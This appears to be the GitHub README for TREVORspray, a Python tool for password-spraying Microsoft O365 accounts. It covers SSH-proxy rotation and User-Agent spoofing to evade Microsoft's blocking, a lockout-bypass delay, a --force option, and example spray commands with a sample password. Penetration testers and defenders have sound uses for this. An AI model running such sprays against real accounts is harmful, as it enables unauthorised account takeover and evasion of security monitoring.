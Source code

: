 ![trevor](https://user-images.githubusercontent.com/20261699/92336575-27071380-f070-11ea-8dd4-5ba42c7d04b7.jpeg)
`#trevorforget`

# TREVORspray
A featureful Python O365 sprayer based on [MSOLSpray](https://github.com/dafthack/MSOLSpray) which uses the [Microsoft Graph API](https://docs.microsoft.com/en-us/graph/overview)

By [@thetechr0mancer](https://twitter.com/thetechr0mancer)

![trevorspray](https://user-images.githubusercontent.com/20261699/92338226-e366d680-f07c-11ea-8664-7b320783dc98.png)

Microsoft is getting better and better about blocking password spraying attacks against O365.  **TREVORspray can solve this by proxying its requests through an unlimited number of `--ssh` hosts**.  No weird dependencies or cumbersome setup required - all you need is a cloud VM with port 22 open.

CREDIT WHERE CREDIT IS DUE - MANY THANKS TO:
- [@dafthack](https://twitter.com/dafthack) for writing [MSOLSpray](https://github.com/dafthack/MSOLSpray)
- [@Mrtn9](https://twitter.com/Mrtn9) for his Python port of [MSOLSpray](https://github.com/MartinIngesen/MSOLSpray)
- [@KnappySqwurl](https://twitter.com/KnappySqwurl) for being a splunk wizard and showing me how heckin loud I was being :)

## Features
- Tells you the status of each account: if it exists, is locked, has MFA enabled, etc.
- Automatic cancel/resume (attempted user/pass combos are remembered in `./logs/tried_logins.txt`)
- Round-robin proxy through multiple IPs using only vanilla `--ssh`
- Automatic infinite reconnect/retry if a proxy goes down (or if you lose internet)
- Spoofs `User-Agent` and `client_id` to look like legitimate auth traffic
- Logs everything to `./logs/trevorspray.log`
- Saves valid usernames to `./logs/valid_usernames.txt`
- Optional `--delay` between request to bypass M$ lockout countermeasures

## Installation:
```
$ git clone https://github.com/blacklanternsecurity/trevorspray
$ cd trevorspray
$ pip install -r requirements.txt
```

## Example: Spray O365 with 5-second delay between requests
```
$ trevorspray.py -e bob@evilcorp.com -p Fall2020! --delay 5
```

## Example: Spray O365 and round-robin between 3 IPs (the current IP is used as well.)
```
$ trevorspray.py -e emails.txt -p Fall2020! --ssh root@1.2.3.4 root@4.3.2.1 -kp
```

## Help:
```
$ ./trevorspray.py --help
usage: trevorspray.py [-h] -e EMAILS [EMAILS ...] -p PASSWORDS [PASSWORDS ...] [-f] [-d DELAY] [--url URL] [-v] [-s SSH [SSH ...]] [-k KEY] [-kp]
                      [--base-port BASE_PORT]

Have fun spraying O365 through SSH proxies

optional arguments:
  -h, --help            show this help message and exit
  -e EMAILS [EMAILS ...], --emails EMAILS [EMAILS ...]
                        Emails(s) and/or file(s) filled with emails
  -p PASSWORDS [PASSWORDS ...], --passwords PASSWORDS [PASSWORDS ...]
                        Password(s) that will be used to perform the password spray
  -f, --force           Forces the spray to continue and not stop when multiple account lockouts are detected
  -d DELAY, --delay DELAY
                        Sleep for this many seconds between requests
  --url URL             The URL to spray against (default is https://login.microsoft.com)
  -v, --verbose         Print extra debugging info
  -s SSH [SSH ...], --ssh SSH [SSH ...]
                        Round-robin load-balance through these SSH hosts (user@host) NOTE: Current IP address is also used once per round
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  -kp, --key-pass       SSH key requires a password
  --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
```

## Known Limitations:
- Untested on Windows
- Only works against the M$ Graph API (right now at least)